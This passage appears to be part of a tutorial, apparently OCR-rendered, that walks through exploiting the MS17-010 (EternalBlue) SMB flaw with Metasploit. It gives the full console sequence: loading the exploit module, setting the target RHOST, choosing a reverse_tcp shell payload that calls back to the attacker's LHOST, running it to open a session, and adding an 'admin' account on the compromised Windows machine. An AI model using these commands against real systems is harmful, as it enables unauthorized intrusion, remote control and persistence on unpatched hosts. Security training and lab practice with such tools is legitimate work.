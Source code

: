 Some you can simply keep default, but required ones you must set them up. For example, RHOST, the attacking targets and RPORT.

After setup, use `run` command, the module will start to scan the exploit. If it prompted with `Host is likely vulnerable`, it means the target could be attacked by `exploit` modules.

Then

```shell
search ms17 010

use exploit/windows/smb/ms17_010_eternalblue
```

Similarly

```
show options
...

set RHOST 192.168.128.53

show targets # this is to show the scanned possible targets
```

Do not `run` right now, because you need payloads to capture all the returning information and send instructions. You can treat different payload as different shell controlling software, some may only send and receive messages, some have very good utilities and some could even return VNC, X-window and keyboard records. For example, `meterpreter` is a really good payload that many attack examples would use it and `shell` is also a very good payload with light-weight size and hard to be detected.

```shell
show payloads  # Attention: following command within the exploit

set payloads windows/x64/shell/reverse_tcp

show options

set LHOST 192.168.128.32  # IP is the attacker's address

run
```

After a certain time, you will find exploit finished, press `Enter` to continues as long as `session opened`

```
net user admin admin /add

net user
```

If you are using non-English system, you may need to use

```shell
chcp 65001
```
